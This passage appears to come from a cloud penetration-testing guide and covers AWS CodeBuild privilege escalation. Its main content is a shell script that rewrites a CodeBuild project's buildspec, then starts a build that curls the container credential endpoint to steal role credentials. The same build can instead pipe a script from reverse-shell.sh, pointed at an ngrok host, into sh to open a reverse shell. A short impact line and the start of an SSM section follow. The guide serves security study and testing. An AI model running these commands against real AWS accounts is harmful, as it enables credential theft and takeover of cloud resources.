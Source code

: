 ```sh
```
{% endtab %}

{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.

### SSM

Having **enough permissions to start a ssm session** it's possible to get **inside a Codebuild project** being built.
